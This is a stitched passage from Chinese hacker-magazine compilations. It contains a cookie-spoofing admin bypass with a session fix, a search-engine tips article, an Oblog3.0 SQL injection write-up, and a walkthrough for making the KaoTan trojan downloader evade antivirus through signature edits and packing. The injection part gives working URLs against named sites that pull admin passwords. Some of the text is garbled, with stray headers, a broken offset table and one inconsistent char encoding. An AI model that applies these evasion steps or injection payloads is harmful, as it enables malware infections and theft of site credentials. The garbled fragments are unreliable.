response.redirect "login.asp"
end if
```

这段代码的意思是，如果Cookies值adminok为空就返回到Login.asp，那要是不为空不就可以登录后台了！应该测试一下。

打开桂林老兵Cookies浏览器，输入新闻版块的后台地址：http://www.***.com/news/login.asp，在出现登录窗口后，点cookies浏览器工具条中的“设置自定义Cookies”按钮，将Cookies值改为adminok=a，其中的a为任意值，只要不是空就可以。再把地址ADDress中的Login.asp改为Manage.asp，如图7所示。


图7

修改完毕后，点地址栏右侧的“连接”，瞧！还真进入了后台，试一下后台中其他页面的功能，没有任何妨碍！

因为Cookies验证很容易被欺骗，所以现在的验证方式大多采用的是Session，下面就来为其做一个简单的Session验证。

首先打开验证管理员名称及密码的ChkLogin.ASP文件，按照程序流程，如果输入的是正确的管理员名称及密码，就赋予其Session值。语句如下：

```
if password=rs("password") and username=rs("username") then
后加入如下session值：Session("Adminok")="adminok"
??? 接着创建一个Check.asp验证文件，内容如下：
<%
Session.TimeOut = 30 '脚本超时(分钟)
if Session("Adminok")<>"adminok" then '验证Session值
response.redirect "login.asp"
response.end
end if
%>
```

最后在Manage.asp、Save.asp、Add.asp等后台管理所涉及的ASP文件头部，加入调用语句：

```
<!--#include file="check.asp"-->
```

如此一来，利用Cookies欺骗就进不了后台了。

适合读者：入侵爱好者，木马爱好者
前置知识：无

#### TrojanDownload

文/图 葛明奇

Download类的后门木马有很多，但面对这么多这类的软件我们选哪个好呢？KaoTan非常不错，它完全用汇编写的，功能了得！它采用线程插入的方法来逃避防火墙比如浏览器（一般防火墙是放行的一对浏览器），插入的进程我们自己可以选择。而且它的体积很小（汇编嘛），没有加壳，我们可以自行加壳，用过它的人可能知道他加过压缩壳之后还是会被查杀的！今天的主题就是让它不被任何杀毒软件查杀。OK!Let's Go!

所需工具：KaoTan2.0对象
特征码修改器1.1 特征码修改

Restorator2004 资源修改
北斗星 加壳工具
mew12? 加壳工具

第一步：打开KaoTan2.0生成服务端。

如图1所示。



图1

#### NEW TOPIC

栏目编辑 / 刘流 liuliu@hacker.com.cn

第二步: 注意选择自己想要插入的进程和执行的时间,我插入的是默认,浏览器,时间为30秒后运行! 如图2 所示。
第三步: OK 生成成功! 如图3 所示。
第四步: 打开特征码修改器1.1,我们来修改瑞星的特征码(其实不用修改大家可以去试试修改,不改也行!!),导入下面这段! 如图4 所示。
我们只留下第二段: 0002000006D00000001800006E8,如图5 所示。
第五步: 选择保存! 保存成功了! 保存为OK.exe。如图6所示。
第六步: 下面我们用Restorator2004打开修改过的exe(即OK.exe),看到没? 1000! 如图7 所示。





| 序号 | 起始偏移 | 定位结果 | 大小 | 结束偏移 |
| ---- | -------- | -------- | ---- | -------- |
| 0001 | 000000C0 | 00000030 | 000000F0 |
| 0002 | 000000D0 | 00000018 | 000000E8 |
| 0003 | 00000998 | 00000078 | 00000A10 |
| 0004 | 00000078 | 00000018 | 00000090 |
| 0005 | 000000A8 | 00000018 | 000000C0 |





第八步: 我们把1000.dll导出来! 如图8所示。


第九步: 打开我们的北斗,字符我们用ar,迷惑哦! 如图9 所示。
第十步: 我们把程序给选上! 1000.dll。如图10所示。
第十一步: 加壳完成了! 不错! 如图11所示。
第十二步: 导入我们加过壳的1000.dll,如图12 所示。
第十三步: 我们保存为OK-OK.exe。
第十四步: 好了! 我们已经翻过了大雪山! 就只要给OK-OK.exe整体加壳了! 这样我们的程序就更小,而且更不容易被发现喽!








十五步 OK,压缩的挺厉害哦! 看,压缩了将近一半!
十六步: 看到没,程序就是这么小7.91K。
到现在这个程序已经基本上不被杀毒软件所识别了! 我已经测试过了! 太棒了,我们又有自己的东东了!

www.hacker.com.cn
2006 精华奉献本 下册

适合读者：网民，网络新手
前置知识：无

#### 开搜索引擎
吃自己想要的数据

文/图 玫瑰下的烂泥

现在每个网民上网都喜欢找东西，但是网海无边，想找到自己要找的东西对于新人来说，是有些吃力。下面我举个例子来简单讲讲我们上网如何找我们要找的东西。

现在日常网民生活一般都用的“百度”这个搜索引擎，这个搜索引擎适用对象比较广，一般用它来找你自己想要的普通的资料都比较易。因为它搜索结果后面还有一个类似范围供你仔细搜索，所以我们就用“百度”来做搜索平台吧。（小编：支持国产）

##### 一、怎样成为搜索高手
——选择适当的查询词

搜索技巧，最基础同时也是最有效的，就是选择合适的查询词。选择查询词是一种经验积累，在一定程度上也有章可循。

表述准确百度会严格按照你提交的查询词去搜索，因此，查询词表述准确是获得良好搜索结果的必要前提。

一般常见的表述不准确情况是，脑袋里想着回事，搜索框里输入的是另一回事。例如，要查找2005年国内十大新闻，查询词可以是“2005年国内十大新闻”；但如果把查询词换成“2005年国内十大事件”，搜索结果就没有能满足需求的了。另一类典型的表述不准确，是查询词中包含错别字。

例如，要查找林心如的写真图片，用“林心如写真”，当然是没什么问题；但如果写错了字，变成“林心如茹写真”，搜索结果质量就差得远了。不过好在，百度对于用户常见的错别字输入，有纠错提示。你若输入“林心如茹写真”，在搜索结果上方，会提示“你要找的是不是：林心如写真”。

根据网页特征选择查询词，很多类型的网页都有某种相似的特征。例如，小说网页，通常都有一个目录页，小说名称一般出现在网页标题中，而页面上通常有“目录”两个字，点击页面上的链接，就进入具体的章节页，章节页的标题是小说章节名称 软件下载页，通常软件名称在网页标题中，网页正文有下载链接，并且会出现“下载”这个词，等等。经常进行搜索，并且总结各类网页的特征现象，并应用查询词的选择，就会使得搜索变得准确而高效。

例如，找明星的个人资料页。一般来说，明星资料页的标题，通常是明星的名字，而在页面上，会有“姓名”、“身高”等词语出现。比如找林青霞的个人资料，就可以用“林青霞 姓名 身高”来查询。而由于明星的名字一般在网页标题中出现，因此，更精确的查询方式，可以是“姓名 身高 intitle:林青霞”。Intitle，表示后接的词限制在网页标题范围内。这类主题词加上特征词的查询构造方法，适用于搜索具有某种共性的网页。前提是，你必须了解这种共性（或者通过试验性搜索预先发现共性）。前面的例子在这我不做演示，重要的是看下面。

##### 二、找软件下载

日常工作和娱乐需要用到大量的软件，很多软件属于共享或者自由性质，可以在网上免费下载到。

直接找下载页面这是最直接的方式。软件名称，加上“下载”这个特征词，通常可以很快找到下载点。例 PhotoShop 下载，如图1所示。



在图1里的搜索结果可以看出，搜索引擎就会很懂你的“语言”，列出了在21CN.COM的下载中心里的下载页面。

2. 在著名的软件下载站找软件，由于网站质量参差不齐，下载速度也快慢不一。如果我们积累了一些好用的下载站（如天空网，华军网，电脑之家等），就可以用“Site”语法把搜索范围局限在这些网站内，以提高搜索效率。

例如 PhotoShop site:skycn.com 如图2所示。
从我刚才在搜索结果上所选的URL都是在www.skycn.com这个网站里抽取出来的。

> 一旦搜索范围局限在专业下载站中，“下载”这个特征词就不必在查询词中出现了。

##### 三、找问题解决办法

找这类信息，核心问题是如何构建查询关键词。一个基本原则是，在构建关键词时，我们尽量不要用自然语言（所谓自然语言，就是我们平时说话的语言和口气），而要从自然语言中提炼关键词。这个提炼过程并

> 栏目编辑 > 刘流 > liuliu@hacker.com.cn

#### NEW TOPIC
> 栏目编辑 / 刘流 / liuliu@hacker.com.cn



图 2

不容易，但是我们可以用一种将心比心的方式思考：如果我知道问题的解决办法，我会怎样对此作出回答。也就是说，猜测信息的表达方式，然后根据这种表达方式，取其中的特征关键词，从而达到搜索目的。
例如，我们上网时经常会遇到陷阱，浏览器默认主页被修改并锁定。这样一个问题的解决办法，我们应该怎样搜索呢？首先要确定的是，不要用自然语言。比如，有的人可能会这样搜索“我的浏览器主页被修改了，谁能帮帮我呀”。这是典型的自然语言，但网上和这样的话完全匹配的网页，几乎就是不存在的。因此这样的搜索常常得不到想要的结果。我们来看这个问题中的核心词汇。对象：浏览器（或者IE）的主页。事件：被修改（锁定）。“浏览器”、“主页”和“被修改”，在这类信息中出现的概率会最大，IE可能会出现，至于锁定，用词比较专业化，不见得能出现。于是关键词中，至少应该出现“浏览器”、“主页”和“被修改”，这是问题现象描述。
一般情况下，只要对问题作出适当的描述，在网上基本上就可以找到解决对策。
例如：
浏览器主页
被修改。例
如：震荡波
病毒 预防。
如图3、图4
所示。



图 3


图 4

##### 四、找专业报告

很多情况下，我们需要有权威性的，信息量大的专业报告或者论文。比如，我们需要了解中国互联网状况，就需要找一个全面的评估报告，而不是某某记者的一篇文章。我们需要对某个学术问题进行深入研究，就需要找这方面的专业论文。找这类资源，除了构建合适的关键词之外，我们还需要了解一点，那就是：重要文档在互联网上存在的方式，往往不是网页格式，而是Office文档或者PDF文档。Office文档我们都熟悉，PDF文档也许有的人并不清楚。PDF文档是Adobe公司开发的一种图文混排电子文档格式，能在不同平台上浏览，是电子出版的标准格式之一。多数上市公司的年报，就是用PDF做的。很多公司的产品手册，也以PDF格式放在网上。
百度以“filetype:”这个语法来对搜索对象做限制，冒号后是文档格式，如PDF、DOC、XLS等。例如霍金 黑洞 filetype:pdf 如图5所示。



图 5

有时候我们搜索一些资料并不是直接输入名字就能搜索出来的。比如你要找一个地区的地图，你就要思考一下，一般这个地区的地图都是当地政府网站才有的，正如我要找北京的地图，总不能到云南的网站去找吧(但也不排除有些网站有)，所以我要找北京市的地图，当然要去找北京的政府网站，因为作为一个政府的网站，除了把该地区的政治时事、新闻等写出来之外，都会向人介绍一下当地的风土人情等，如地区分布、道路交通、文明历史等。所以要找一个地区的地图得先去找当地的政府的网站，例如我要找北京市的地图，如图6所示。


图 6

图6是北京政府的网站，在里面有一个数字地图的连接。这里服务器忙，所以没把北京的地图显示出来。你有空的话可以自己试一下。
以上5点是我结合大部分的搜索引擎总结出来的搜索技巧，希望能给广大新一代的网民带来了方便。

www.hacker.com.cn
2008 精华本 下册

WTF:伴随着blog的兴起,各种blog程序开始在网络上流行起来。其中又以Oblog为最受欢迎的一种,黑防实验室也将它定为了第6轮的过关项目。当Oblog Access版的攻克方法在黑防2005第9期杂志上公布之后,llikz对最新SQL版的Oblog3又开始了研究,并且成功找到漏洞和攻击方法。希望Oblog的开发人员能把安全问题重视起来,为喜爱blog的网民朋友打造一个更优秀的网络日志发布平台。
适合读者:脚本爱好者,入侵爱好者
前置知识:SQL注入基础

#### Oblog3.0漏洞曝光

文/图 llikz、赫永清

看过第6轮黑防实验室内的两位大侠对Oblog3.0 Access版本的渗透,敬佩之情犹如滔滔江水连绵不绝,又如黄河之水一发而不可收拾,尤其是他们把社会工程学原理利用得淋漓尽致,以及巧妙的后台上传Shell的方法。佩服,佩服。说了这么多废话,我们进入正题,本人在通读Oblog3.0代码的时候发现user_blogmanage.asp文件存在安全隐患,看看下面移动blog日志的操作代码

```vbscript
sub moveblog()
    if id="" then
        Oblog.adderrstr("请指定要移动的日志")
        Oblog.showusererr
        exit sub
    end if
    dim subjectid
    subjectid=trim(request("subject"))
    if subjectid="" then
        Oblog.adderrstr("请指定要移动的目标专题")
        Oblog.showusererr
        exit sub
    else
        subjectid=Clng(subjectid)
    end if
    if instr(id,",")>0 then
        '如果id变量中含有逗号,去掉变量中的空格,执行下面的SQL语句。设为第一条
        id=replace(id," ","")
        sql="Update [Oblog_log] set subjectid="&subjectid&" where logid in (" & id & ")"&wsql
        '否则执行这个SQL语句,设为第二条。
    else
        sql="Update [Oblog_log] set subjectid="&subjectid&" where logid=" & id &wsql
    end if
    Oblog.Execute sql
    dim blog,rs1
    set blog=new class_blog
    blog.userid=Oblog.logined_uid
    blog.update_allsubjectid()
    blog.update_index_subject 0,0,0,""
    set blog=nothing
    set rs=Oblog.execute("select subjectid from Oblog_subject where userid="&Oblog.logined_uid)
    while not rs.eof
        set rs1=Oblog.execute("select count(logid) from Oblog_log where Oblog_log.subjectid="&rs(0))
        Oblog.execute("update Oblog_subject set subjectlognum="&rs1(0)&" where Oblog_subject.subjectid="&rs(0))
        rs.movenext
    wend
    set rs=nothing
    set rs1=nothing
    Oblog.showok "更新专题成功,需要重新发布首页,才可使专题统计准确!"
end sub
```

再看看文件最上面对id变量的过滤 id=Oblog.filt_badstr(trim(Request("id"))),只用了这条语句,函数代码如下:

```vbscript
public function filt_badstr(str)
    If Isnull(Str) Then
        filt_badstr = ""
        Exit Function
    End If
    Str = Replace(Str,Chr(0),"")
    filt_badstr = Replace(Str,"'","""")
end function
```

只去掉了\0和单引号,呵呵,这怎能阻止我们的注入攻击呢?找个使用Oblog3.0 SQL版本的站点牛刀小试一下:构造环境测试语句`http://www.boysg.bloger.com.cn/user_blogmanage.asp?action=Move&subject=1&id=@@version`,"—,一定要注意语句最后面的",",否则不会成功的。如图1 所示。


以上注入我们选择的是第一条语句,多了限制条件,就是不能使用空格且提交的语句中要含有逗号。我

们可以使用/**/来代替空格。由于限制条件多，以下测试中我们控制程序执行第二条语句。进一步刺探环境

```
http://www.boyqs.bloger.com.cn/user_blogmanage.asp?action=Move&subject=1&id=1%20and%20db_name()>0--
```

结果如图2所示。


再提交对数据库中库名的查询

```
http://www.boyqs.bloger.com.cn/user_blogmanage.asp?action=Move&subject=1&id=1%20and%20db_user>0--
```

如图3所示。


嘿嘿，测试成功，由于注入语句中不能包含单引号，身经百战的我们当然很容易绕过这条限制，我喜欢使用SQL中的char函数绕过，正好手头有研究动易系统时写的char编码工具，于是先看看Oblog数据库的表结构，在Oblog_admin表中我们感兴趣的只有id、username和password字段，先暴出admin用户或者管理员的密码来瞧瞧

```
http://www.target.com/user_blogmanage.asp?action=Move&subject=1&id=1 and 1=(select password from Oblog_admin where id=1)--或者
http://www.target.com/user_blogmanage.asp?action=Move&subject=1&id=1 and 1=(select password from Oblog_admin where username=char(0x61)%2Bchar(0x64)%2Bchar(0x6c)%2Bchar(0x69)%2Bchar(0x6e))--
```

其中“char(0x61)%2Bchar(0x64)%2Bchar(0x6d)%2Bchar(0x69)%2Bchar(0x6e)”是对提交的admin使用char函数的编码。返回结果如图4所示。

